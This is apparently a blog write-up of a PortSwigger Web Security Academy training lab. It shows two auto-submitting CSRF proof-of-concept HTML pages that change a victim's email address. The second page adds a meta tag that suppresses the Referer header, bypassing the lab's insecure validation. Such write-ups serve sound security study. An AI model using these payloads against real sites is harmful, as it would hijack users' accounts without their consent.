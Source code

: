 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-04T15:22:00Z
modDatetime: 2024-10-04T09:12:47.400Z
title: CSRF where Referer validation depends on header being present
slug: csrf-portswigger-lab-7
featured: false
draft: false
tags:
  - BSCP
  - CSRF
description:
  This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You can log in to your own account using the following credentials `wiener:peter`   
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution 

Exactly like the rest other labs, we have to update the email, Intercept the request and Generate the POC using engagement tools.. here is how the POC looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aaa00780346c2cf861f4a6300f800c7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="nithissh&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Then Copied the payload into Exploit server, `Stored -> View Exploit` that resulted in a referrer header error 

![](../../assets/images/bscp/csrf/csrf-24.png)

In order to bypass the check we can add the following the piece of code which will suppress the `Referrer` header kind of like telling the application that I don't need it  `<meta name="referrer" content="never">` into our POC 

```html
<html>
    <meta name="referrer" content="never">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aaa00780346c2cf861f4a6300f800c7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="nithissh&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Redo the method again in terms of exploit server after adding this code like `Store -> Deliver the exploit to Victim` and then lab will be solved 

![](../../assets/images/bscp/csrf/csrf-25.png)
